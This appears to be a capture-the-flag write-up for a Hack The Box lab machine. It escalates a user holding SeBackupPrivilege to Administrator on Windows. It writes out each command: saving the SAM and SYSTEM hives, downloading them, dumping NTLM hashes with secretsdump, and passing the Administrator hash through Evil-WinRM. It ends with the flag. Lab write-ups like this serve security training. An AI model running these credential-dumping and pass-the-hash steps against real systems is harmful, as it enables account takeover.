






To begin the privilege escalation process, we first check which privileges Emily currently has by running the command "whoami /priv".
```bash
$ whoami /priv
```


We observe that Emily has the "SeBackupPrivilege", which is normally assigned to service accounts or administrative users. This privilege is intended to support system backup operations and allows access to protected system files while bypassing standard permission checks. In a real-world environment, a regular user account should not have this privilege, as it effectively grants access to sensitive files such as the SYSTEM and SAM Windows Registry hives. These hives contain the data required to escalate our privileges.

In simple terms, these registry hives can be used to dump user NTLM hashes, allowing us to authenticate using the Administrator hash instead of a plaintext password.

To elaborate further:

- The SAM (Security Account Manager) hive stores information about local user accounts and group memberships, including their hashed passwords.
```bash
$ reg save hklm\sam sam
```
- The SYSTEM hive holds system-wide configuration data, including the boot key needed to decrypt the password hashes stored in the SAM hive.
```bash
$ reg save hklm\system system
```
To extract these files, we use the "reg save" command to interact with the registry, specify the path to each hive, and save them as files in the current directory using the appropriate filenames.



At this point, we can download both files to our local system by using the download command available in "Evil-WinRM".
```bash
$ download sam
$ download system
```


With the files now available on our local machine, we can use Impacket’s secretsdump module to extract user NTLM hashes. An NTLM hash is a cryptographic representation of a user's plaintext password. After obtaining it, we can attempt to crack the hash or perform a Pass-the-Hash attack, allowing us to authenticate to the system without needing the actual plaintext password.

To dump the hashes, we provide the following arguments:

- sam: the path to the SAM file containing the encrypted password data.

- system: the path to the SYSTEM file, which holds the boot key needed to decrypt the SAM file.

- local: specifies that the files are being accessed locally rather than remotely.
```bash
$ impacket-secretsdump -sam sam -system system local
```


From the output, we identify the Administrator NTLM hash "2b87e7c93a3e8a0ea4a581937016f341". We can use this hash to log in directly to the Administrator account by supplying it to "Evil-WinRM" using the "-H" parameter.
```bash
$ evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```


We have successfully gained full control of the machine and can navigate to C:\Users\Administrator\Desktop\root.txt to retrieve the root flag.


```bash
Root Flag → 86132461f43515a90f3879386ac3c854
```
[Back](README.md)